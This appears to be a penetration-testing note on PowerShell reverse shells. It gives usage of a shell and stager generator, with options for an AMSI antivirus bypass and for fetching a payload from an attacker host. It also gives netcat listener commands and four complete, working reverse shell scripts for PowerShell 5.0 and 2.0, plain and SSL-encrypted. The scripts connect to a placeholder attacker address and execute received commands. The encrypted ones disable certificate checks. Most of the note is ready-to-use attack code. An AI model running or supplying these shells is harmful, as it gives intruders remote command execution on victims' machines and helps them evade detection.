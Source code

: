 
> [!hint]
> My custom reverse shell generator can be found here:
> https://github.com/tylerdotrar/PoorMansArmory
> 
> - PoorMansArmory/revshells/Get-RevShell.ps1
> - PoorMansArmory/revshells/Get-Stager.ps1
> 
> ```powershell
> # Simple PowerShell Reverse Shell (base64)
> Get-RevShell <attacker_ip> <listening_port>
> 
> # Simple PowerShell Reverse Shell (cleartext)
> Get-RevShell <attacker_ip> <listening_port> -Raw
> 
> # PowerShell 2.0 Compatible Reverse Shell w/ Verbose Variables (cleartext)
> Get-RevShell <attacker_ip> <listening_port> -Raw -Verbose -PowerShell2Support
> 
> # SSL Encrypted PowerShell Reverse Shell w/ AMSI Bypass (base64)
> Get-RevShell <attacker_ip> <listening_port> -SSL -AmsiBypass
> 
> # Cleartext Stager pointing to Robust PowerShell Reverse Shell
> Get-RevShell <attacker_ip> <listening_port> -SSL -AmsiBypass -WebClientHelpers > ./downloads/revshell
> Get-Stager http(s)://<attacker_ip>:<attacker_port>/revshell -Raw
> 
> # View all parameters
> Get-RevShell -Help
> Get-Stager -Help
> ```

## Standard Reverse Shell
---
There are only minute payload difference between standard PowerShell 5.0+ and the older PowerShell 2.0 in terms of functionality.  The primary differences are that the PowerShell 5.0+ payloads support information output streams and instantiate classes differently.

In both scenarios, the attacker's listener is the same.

```shell
# Listener with readline wrapper
rlwrap nc -nlvp <listening_port>
```

### PowerShell 5.0 (default)
---

```powershell
# Variables
$IPAddress = '<attacker_ip>'
$Port      = '<listening_port>'

# Reverse Shell
$RevShellClient = [System.Net.Sockets.TCPClient]::new($IPAddress,$Port)
$Stream = $RevShellClient.GetStream()
[byte[]]$DataBuffer = 0..65535 | % {0}
$OutputBuffer = [System.IO.StringWriter]::new()
[System.Console]::SetOut($OutputBuffer)
while (($i = $Stream.Read($DataBuffer,0,$DataBuffer.Length)) -ne 0) {
    Try {
        $Command = [System.Text.ASCIIEncoding]::new().GetString($DataBuffer,0,$i)
        $CommandOutput = (iex $Command *>&1 | Out-String)
    } Catch {$CommandOutput = "$($Error[0])`n"}
    $OutputBuffer.Write($CommandOutput)
    $PromptString = $OutputBuffer.ToString() + 'PS ' + (PWD).Path + '> ' 
    $PromptBytes = ([Text.Encoding]::ASCII).GetBytes($PromptString)
    $Stream.Write($PromptBytes,0,$PromptBytes.Length)
    $Stream.Flush()
    $OutputBuffer.GetStringBuilder().Clear() | Out-Null
}
$OutputBuffer.Close()
$RevShellClient.Close()
```

### PowerShell 2.0 
---

```powershell
# Variables
$IPAddress = '<attacker_ip>'
$Port      = '<listening_port>'

# Reverse Shell (PowerShell 2.0 Compatible)
$RevShellClient = New-Object -TypeName System.Net.Sockets.TcpClient($IPAddress, $Port)
$Stream = $RevShellClient.GetStream()
[byte[]]$DataBuffer = 0..65535 | % {0}
$OutputBuffer = New-Object -TypeName System.IO.StringWriter
[System.Console]::SetOut($OutputBuffer)
while (($i = $Stream.Read($DataBuffer,0,$DataBuffer.Length)) -ne 0) {
    Try {
        $Command = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($DataBuffer,0,$i)
        $CommandOutput = (iex $Command 2>&1 | Out-String)
    } Catch {$CommandOutput = "$($Error[0])`n"}
    $OutputBuffer.Write($CommandOutput)
    $PromptString = $OutputBuffer.ToString() + 'PS ' + (PWD).Path + '> '
    $PromptBytes = ([Text.Encoding]::ASCII).GetBytes($PromptString)
    $Stream.Write($PromptBytes,0,$PromptBytes.Length)
    $Stream.Flush()
    $OutputBuffer.GetStringBuilder().Clear() | Out-Null
}
$OutputBuffer.Close()
$RevShellClient.Close()
```

## SSL Encrypted Reverse Shell
---
By prepending the reverse shell with a custom .NET class that bypasses the self-signed certificate check for SSL streams, you can establish a completely encrypted reverse shell.

> [!info]
> If you would like to take this a step further using assembly reflection, see my [Loading .NET into PowerShell](../15.%20Technique%20Ted%20Talks%20(TTTs)/Loading%20.NET%20into%20PowerShell.md) note.

In both PowerShell 2.0 and 5.0, the attacker's listener is the same.
```shell
# Listener with SSL support and readline wrapper
rlwrap ncat -nlvp <listening_port> --ssl
```

### PowerShell 5.0 (default)
---

```powershell
# Variables
$IPAddress = '<attacker_ip>'
$Port      = '<listening_port>'

# Custom Self-Signed Certificate Bypass .NET Class
$CertificateBypasses = @'
using System;
using System.Net;
using System.Net.Sockets;
using System.Net.Security;
using System.Security.Cryptography.X509Certificates;
public class SelfSignedCerts
{
    public static bool Bypass (Object ojb, X509Certificate cert, X509Chain chain, SslPolicyErrors errors)
    {
        return true;
    }
    public static SslStream Stream(TcpClient client)
    {
        return new SslStream(client.GetStream(), false, new RemoteCertificateValidationCallback(Bypass), null);
    }
}
'@
Add-Type $CertificateBypasses

# SSL Encrypted Reverse Shell
$RevShellClient = [System.Net.Sockets.TCPClient]::new($IPAddress, $Port)
$Stream = [SelfSignedCerts]::Stream($RevShellClient)
$Stream.AuthenticateAsClient('')
[byte[]]$DataBuffer = 0..65535 | % {0}
$OutputBuffer = [System.IO.StringWriter]::new()
[System.Console]::SetOut($OutputBuffer)
while (($i = $Stream.Read($DataBuffer,0,$DataBuffer.Length)) -ne 0) {
    Try {
        $Command = [System.Text.ASCIIEncoding]::new().GetString($DataBuffer,0,$i)
        $CommandOutput = (iex $Command *>&1 | Out-String)
    } Catch {$CommandOutput = "$($Error[0])`n"}
    $OutputBuffer.Write($CommandOutput)
    $PromptString = $OutputBuffer.ToString() + 'PS ' + (PWD).Path + '> '
    $PromptBytes = ([Text.Encoding]::ASCII).GetBytes($PromptString)
    $Stream.Write($PromptBytes,0,$PromptBytes.Length)
    $Stream.Flush()
    $OutputBuffer.GetStringBuilder().Clear() | Out-Null
}
$OutputBuffer.Close()
$RevShellClient.Close()
```

### PowerShell 2.0
---

```powershell
# Variables
$IPAddress = '<attacker_ip>'
$Port      = '<listening_port>'

# Custom Self-Signed Certificate Bypass .NET Class
$CertificateBypasses = @'
using System;
using System.Net;
using System.Net.Sockets;
using System.Net.Security;
using System.Security.Cryptography.X509Certificates;
public class SelfSignedCerts
{
    public static bool Bypass (Object ojb, X509Certificate cert, X509Chain chain, SslPolicyErrors errors)
    {
        return true;
    }
    public static SslStream Stream(TcpClient client)
    {
        return new SslStream(client.GetStream(), false, new RemoteCertificateValidationCallback(Bypass), null);
    }
}
'@
Add-Type $CertificateBypasses

# SSL Encrypted Reverse Shell (PowerShell 2.0 Compatible)
$RevShellClient = New-Object -TypeName System.Net.Sockets.TcpClient($IPAddress, $Port)
$Stream = [SelfSignedCerts]::Stream($RevShellClient)
$Stream.AuthenticateAsClient('')
[byte[]]$DataBuffer = 0..65535 | % {0}
$OutputBuffer = New-Object -TypeName System.IO.StringWriter
[System.Console]::SetOut($OutputBuffer)
while (($i = $Stream.Read($DataBuffer,0,$DataBuffer.Length)) -ne 0) {
    Try {
        $Command = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($DataBuffer,0,$i)
        $CommandOutput = (iex $Command 2>&1 | Out-String)
    } Catch {$CommandOutput = "$($Error[0])`n"}
    $OutputBuffer.Write($CommandOutput)
    $PromptString = $OutputBuffer.ToString() + 'PS ' + (PWD).Path + '> '
    $PromptBytes = ([Text.Encoding]::ASCII).GetBytes($PromptString)
    $Stream.Write($PromptBytes,0,$PromptBytes.Length)
    $Stream.Flush()
    $OutputBuffer.GetStringBuilder().Clear() | Out-Null
}
$OutputBuffer.Close()
$RevShellClient.Close()
```